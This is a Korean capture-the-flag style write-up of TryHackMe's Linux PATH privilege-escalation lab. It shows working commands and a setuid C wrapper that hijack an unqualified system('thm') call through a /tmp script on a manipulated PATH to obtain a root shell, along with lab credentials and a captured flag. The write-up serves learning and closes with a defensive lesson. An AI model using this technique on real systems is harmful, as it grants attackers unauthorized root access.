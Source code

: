 ## Privilege Escalation: PATH
> TryHackMe의 "Linux Privilege Escalation: PATH" 실습을 기반으로, 환경 변수 PATH를 악용하여 실행 파일 대체 공격을 수행하고 루트 권한을 획득한 과정을 정리하였다.

---

### 1. 실습 개요
- **타겟 머신 IP**: 10.10.92.239
- **공격 머신**: Kali Linux
- **사용 계정**: `karen:Password1`
- **권한 상승 방법**: `PATH` 환경 변수 조작을 통한 바이너리 하이재킹
- **실습 일자**: 2025-04-19

---

### 2. 실습 과정

#### 2.1 SSH 접속
```bash
ssh karen@10.10.92.239
```
- karen 계정으로 타겟 머신에 SSH 접속하였다.

![SSH 접속](./screenshots/ssh_connect.png)

---

#### 2.2 취약 실행 파일 확인 및 준비
- `/home/murdoch` 디렉토리로 이동하니 `test` 실행 파일과 `thm.py` 파일이 존재하였다.

![murdoch 파일 발견](./screenshots/murdoch_file.png)

- `thm.py`는 Python으로 작성된 프로그램으로, 내부에서 `os.system("thm")`을 호출하고 있었다. 이 부분을 악용하기 위해 `thm.py`의 내용을 모두 제거하고 C로 작성한 setuid 프로그램 코드로 교체하였다.

```c
#include<unistd.h>
void main() {
  setuid(0);
  setgid(0);
  system("thm");
}
```
- 이후 파일명을 `thm.c`로 저장하였다.

![코드 확인 및 작성](./screenshots/setuid_thm.png)

---

#### 2.3 리버스 쉘용 바이너리 작성
- `/tmp` 디렉토리로 이동하여 `thm`이라는 이름으로 셸 스크립트를 작성하였다.
```bash
echo "/bin/bash" > thm
chmod +x thm
```

![thm 셸 스크립트 작성](./screenshots/shell_script.png)

---

#### 2.4 PATH 환경변수에 /tmp 추가
- `PATH` 환경 변수에 `/tmp`를 최우선으로 설정하였다.
```bash
export PATH=/tmp:$PATH
```

![PATH 설정](./screenshots/path_tmp.png)

---

#### 2.5 SUID 파일 실행 및 루트 쉘 획득
- `/home/murdoch`로 돌아와 `test` 실행 파일을 실행하였다. 이 파일은 SUID 권한을 가지고 있었으며 내부적으로 `system("thm")`을 실행하므로 `/tmp/thm`이 실행되어 루트 쉘을 획득할 수 있었다.

```bash
./test
```

![루트 쉘 획득](./screenshots/root_shell.png)

---

#### 2.6 루트 쉘 검증 및 플래그 파일 획득
```bash
find / -name flag6.txt
cat /home/matt/flag6.txt
```
- 루트 권한을 가진 상태에서 시스템을 탐색하여 플래그를 획득하였다.

![플래그 획득](./screenshots/flag_captured.png)

---

### 3. 최종 결과
- PATH 환경 변수의 우선순위 특성을 악용하여 setuid 바이너리를 통해 루트 쉘을 획득함.
- flag6.txt 파일에서 플래그 확보: `THM-736628929`

---

### 4. 배운 점
> ✅ 실습을 통해 PATH 환경 변수의 관리 부주의가 어떻게 치명적인 보안 취약점으로 이어질 수 있는지 체감할 수 있었다. 시스템 관리자가 경로 지정 없이 명령어를 호출하는 경우, 공격자가 원하는 실행 파일로 하이재킹이 가능하며, 특히 SUID 바이너리와 조합될 경우 권한 상승으로 직결될 수 있는 매우 위험한 구조임을 확인하였다.
